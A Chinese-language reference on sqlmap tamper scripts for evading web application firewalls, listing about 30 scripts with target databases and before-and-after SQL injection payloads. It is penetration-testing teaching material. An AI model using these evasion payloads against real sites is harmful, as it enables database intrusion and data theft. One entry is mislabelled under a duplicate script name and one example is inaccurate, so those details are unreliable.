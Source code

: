 ### 0x01 命令如下

```
sqlmap -u [url] --tamper [模块名]1
```

sqlmap的绕过脚本在目录`usr/share/golismero/tools/sqlmap/tamper`下
目前sqlmap 1.2.9版本共有37个

## 可以使用--identify-waf对一些网站是否有安全防护进行试探

## 0x02 常用tamper脚本

apostrophemask.py
适用数据库：ALL
作用：将引号替换为utf-8，用于过滤单引号
使用脚本前：tamper("1 AND '1'='1")
使用脚本后：1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

base64encode.py
适用数据库：ALL
作用：替换为base64编码
使用脚本前：tamper("1' AND SLEEP(5)#")
使用脚本后：MScgQU5EIFNMRUVQKDUpIw==

multiplespaces.py
适用数据库：ALL
作用：围绕sql关键字添加多个空格
使用脚本前：tamper('1 UNION SELECT foobar')
使用脚本后：1 UNION SELECT foobar

space2plus.py
适用数据库：ALL
作用：用加号替换空格
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT+id+FROM+users

nonrecursivereplacement.py
适用数据库：ALL
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
使用脚本前：tamper('1 UNION SELECT 2--')
使用脚本后：1 UNIOUNIONN SELESELECTCT 2--

space2randomblank.py
适用数据库：ALL
作用：将空格替换为其他有效字符
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT%0Did%0DFROM%0Ausers

unionalltounion.py
适用数据库：ALL
作用：将union allselect 替换为unionselect
使用脚本前：tamper('-1 UNION ALL SELECT')
使用脚本后：-1 UNION SELECT

securesphere.py
适用数据库：ALL
作用：追加特定的字符串
使用脚本前：tamper('1 AND 1=1')
使用脚本后：1 AND 1=1 and '0having'='0having'

space2dash.py
适用数据库：ALL
作用：将空格替换为--，并添加一个随机字符串和换行符
使用脚本前：tamper('1 AND 9227=9227')
使用脚本后：1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227

space2mssqlblank.py
适用数据库：Microsoft SQL Server
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005
作用：将空格随机替换为其他空格符号('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT%0Eid%0DFROM%07users

between.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：用NOT BETWEEN 0 AND #替换>
使用脚本前：tamper('1 AND A > B--')
使用脚本后：1 AND A NOT BETWEEN 0 AND B--

percentage.py
适用数据库：ASP
测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
作用：在每个字符前添加一个%
使用脚本前：tamper('SELECT FIELD FROM TABLE')
使用脚本后：%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

sp_password.py
适用数据库：MSSQL
作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password
使用脚本前：tamper('1 AND 9227=9227-- ')
使用脚本后：1 AND 9227=9227-- sp_password

charencode.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：对给定的payload全部字符使用url编码（不处理已经编码的字符）
使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
使用脚本后：%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

randomcase.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：随机大小写
使用脚本前：tamper('INSERT')
使用脚本后：INseRt

charunicodeencode.py
适用数据库：ASP、ASP.NET
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3
作用：适用字符串的unicode编码
使用脚本前：tamper('SELECT FIELD%20FROM TABLE')
使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045

space2comment.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：将空格替换为/**/
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT/**/id/**/FROM/**/users

equaltolike.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5
作用：将=替换为LIKE
使用脚本前：tamper('SELECT * FROM users WHERE id=1')
使用脚本后：SELECT * FROM users WHERE id LIKE 1

equaltolike.py
测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：将>替换为GREATEST，绕过对>的过滤
使用脚本前：tamper('1 AND A > B')
使用脚本后：1 AND GREATEST(A,B+1)=A

ifnull2ifisnull.py
适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)
测试通过数据库：MySQL 5.0 and 5.5
作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤
使用脚本前：tamper('IFNULL(1, 2)')
使用脚本后：IF(ISNULL(1),2,1)

modsecurityversioned.py
适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：过滤空格，使用mysql内联注释的方式进行注入
使用脚本前：tamper('1 AND 2>1--')
使用脚本后：1 /*!30874AND 2>1*/--

space2mysqlblank.py
适用数据库：MySQL
测试通过数据库：MySQL 5.1
作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B')
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT%0Bid%0DFROM%0Cusers

modsecurityzeroversioned.py
适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：使用内联注释方式（/*!00000*/）进行注入
使用脚本前：tamper('1 AND 2>1--')
使用脚本后：1 /*!00000AND 2>1*/--

space2mysqldash.py
适用数据库：MySQL、MSSQL
作用：将空格替换为 -- ，并追随一个换行符
使用脚本前：tamper('1 AND 9227=9227')
使用脚本后：1--%0AAND--%0A9227=9227

bluecoat.py
适用数据库：Blue Coat SGOS
测试通过数据库：MySQL 5.1,、SGOS
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换=
使用脚本前：tamper('SELECT id FROM users where id = 1')
使用脚本后：SELECT%09id FROM users where id LIKE 1

versionedkeywords.py
适用数据库：MySQL
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
作用：注释绕过
使用脚本前：tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')
使用脚本后：1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#

halfversionedmorekeywords.py
适用数据库：MySQL < 5.1
测试通过数据库：MySQL 4.0.18/5.0.22
作用：在每个关键字前添加mysql版本注释
使用脚本前：tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
使用脚本后：value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa

space2morehash.py
适用数据库：MySQL >= 5.1.13
测试通过数据库：MySQL 5.1.41
作用：将空格替换为#，并添加一个随机字符串和换行符
使用脚本前：tamper('1 AND 9227=9227')
使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

apostrophenullencode.py
适用数据库：ALL
作用：用非法双字节Unicode字符替换单引号
使用脚本前：tamper("1 AND '1'='1")
使用脚本后：1 AND %00%271%00%27=%00%271

appendnullbyte.py
适用数据库：ALL
作用：在有效载荷的结束位置加载null字节字符编码
使用脚本前：tamper('1 AND 1=1')
使用脚本后：1 AND 1=1%00

chardoubleencode.py
适用数据库：ALL
作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）
使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
使用脚本后：%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

unmagicquotes.py
适用数据库：ALL
作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格
使用脚本前：tamper("1' AND 1=1")
使用脚本后：1%bf%27 AND 1=1--

randomcomments.py
适用数据库：ALL
作用：用注释符分割sql关键字
使用脚本前：tamper('INSERT')
使用脚本后：I/**/N/**/SERT

在熟悉了tamper脚本之后，我们应该学习tamper绕过脚本的编写规则，来应对复杂的实际环境。
